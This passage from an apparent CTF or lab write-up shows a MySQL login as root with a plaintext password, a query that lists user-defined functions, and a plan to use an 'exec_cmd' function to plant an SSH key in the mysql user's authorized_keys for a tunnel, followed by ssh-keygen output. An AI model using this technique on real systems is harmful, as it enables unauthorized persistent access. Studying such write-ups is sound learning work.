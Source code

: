 ```shell
mysql -u root -pchangethis -e “SELECT * FROM mysql.func;
```

![exec_cmd](/images/compromised/passwd.png)

`exec_cmd` is available to us lets use this to write ssh key in the mysql users authorizd keys and create a tunnel.

let first create `ed25519 ssh key`.

```shell
┌─[✗]─[oxy@oxy]─[~/.ssh]
└──╼ $ssh-keygen -t ed25519
Generating public/private ed25519 key pair.
Enter file in which to save the key (/home/oxy/.ssh/id_ed25519): 
Enter passphrase (empty for no passphrase): 
Enter same passphrase again: 
Your identification has been saved in /home/oxy/.ssh/id_ed25519
Your public key has been saved in /home/oxy/.ssh/id_ed25519.pub
The key fingerprint is:
The key's randomart image is:
+--[ED25519 256]--+
|                 |
|                 |
|              o  |
|           . . B |
|        S   E +o%|
|       o . oo. X%|
|        =....++B=|
|       ..+++oo= B|
|        .=B+o .*+|
+----[SHA256]-----+

┌─[oxy@oxy]─[~/.ssh]
└──╼ $ls
id_rsa  id_rsa.pub
```
